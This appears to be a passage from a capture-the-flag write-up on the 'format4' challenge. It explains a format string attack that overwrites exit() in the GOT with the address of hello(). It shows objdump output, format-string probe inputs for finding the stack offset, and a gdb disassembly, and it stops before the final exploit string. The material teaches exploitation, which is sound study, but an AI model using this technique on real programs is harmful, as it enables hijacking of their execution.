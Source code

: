 Why ? Because *vuln()* calls *exit(1)* at the end of his routine. It means that we never return to *main()* ! So, what do we do now ? Well, we'll use a trick called **GOT Overwrite**. 

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like *libc* functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask **libc** each time an external function is called.

The goal here will be to overwrite the address of *exit()* in the GOT with the address of *hello()*. There are 4 steps here :

- Find the address of *hello()*
- Find the address of *exit()* in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

Let's find the addresses of *exit()* and *hello()*...

```shell
$ objdump -R format4

format4:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049888 R_386_GLOB_DAT    __gmon_start__
0804988c R_386_GLOB_DAT    stdin@GLIBC_2.0
0804989c R_386_JUMP_SLOT   printf@GLIBC_2.0
080498a0 R_386_JUMP_SLOT   _exit@GLIBC_2.0
080498a4 R_386_JUMP_SLOT   fgets@GLIBC_2.0
080498a8 R_386_JUMP_SLOT   puts@GLIBC_2.0
080498ac R_386_JUMP_SLOT   exit@GLIBC_2.0 # Address of exit()
080498b0 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0


$ objdump -t format4 | grep hello
080484cb g     F .text	0000002e              hello
```

We have to change the value pointed by `080498ac` (*exit()*) with the address of *hello()*: `080484cb`. Now, concerning the position of our string, it's the 4th parameters on the stack :

```shell
$ ./format4
AAAA%08x.%08x.%08x.%08x.%08x.%08x
AAAA00000200.b7fcb5a0.08048508.41414141.78383025.3830252e
$ ./format4
AAAA%4$p
AAAA0x41414141
```

Here, we'll write **080484cb** in two parts, the low order bytes then, the high order bytes. Those bytes should be wrote at **080498ac**, the call to *exit()*. Let's give it a try by placing a breakpoint at *printf()* :

```nasm
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x080484f9 <+0>:	push   ebp
   0x080484fa <+1>:	mov    ebp,esp
   0x080484fc <+3>:	push   ebx
   0x080484fd <+4>:	sub    esp,0x204
   0x08048503 <+10>:	call   0x8048400 <__x86.get_pc_thunk.bx>
   0x08048508 <+15>:	add    ebx,0x1388
   0x0804850e <+21>:	mov    eax,DWORD PTR [ebx-0x4]
   0x08048514 <+27>:	mov    eax,DWORD PTR [eax]
   0x08048516 <+29>:	sub    esp,0x4
   0x08048519 <+32>:	push   eax
   0x0804851a <+33>:	push   0x200
   0x0804851f <+38>:	lea    eax,[ebp-0x208]
```